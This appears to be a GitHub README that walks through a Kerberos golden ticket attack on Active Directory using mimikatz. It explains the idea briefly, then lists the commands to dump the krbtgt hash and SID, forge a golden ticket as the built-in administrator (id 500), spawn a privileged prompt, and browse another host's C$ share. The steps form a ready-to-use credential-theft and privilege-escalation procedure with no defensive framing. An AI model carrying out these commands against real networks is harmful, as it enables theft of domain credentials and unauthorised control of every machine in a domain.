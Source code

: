# Golden-Ticket-Attack

A golden ticket attack works by dumping the ticket-granting ticket of any user on the domain this would preferably be a domain admin however for a golden ticket you would dump the krbtgt ticket and for a silver ticket, you would dump any service or domain admin ticket. This will provide you with the service/domain admin account's SID or security identifier that is a unique identifier for each user account, as well as the NTLM hash. You then use these details inside of a mimikatz golden ticket attack in order to create a TGT that impersonates the given service account information.

### Golden Ticket Attacks w/ mimikatz 
Using mimikatz.exe, we gonna dump the krbtgt hash and sid.
```markdown
.\mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
```

![OnPaste 20220614-120938](https://user-images.githubusercontent.com/106917304/173510236-d02a0fdd-2e67-4a81-9763-e6d210e480bc.png)


Now generate golden ticket using krbtgt hash and sid.
```markdown
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
```
NOTE: id is set to 500 for golden ticket attack.


![OnPaste 20220614-121203](https://user-images.githubusercontent.com/106917304/173510532-09a2930d-83f2-4137-b483-b5461c6e3ed4.png)

Use the Golden Ticket to access other machine.

This will open a new command prompt with elevated privileges to all machines.
```markdown
misc::cmd
```
![OnPaste 20220614-121351](https://user-images.githubusercontent.com/106917304/173510764-a28e6a59-7adf-4e2f-9b23-7a4f98a5e89d.png)


Access other Machines! - You will now have another command prompt with access to all other machines on the network.

```markdown
dir \\DESKTOP-1\c$
```

![OnPaste 20220614-121503](https://user-images.githubusercontent.com/106917304/173511018-f5e167eb-8cd5-46d9-91a3-d8c4ab2ce233.png)


![OnPaste 20220614-122214](https://user-images.githubusercontent.com/106917304/173512248-f68d86b3-ed7e-47c3-8ca8-dfa09be766f2.png)


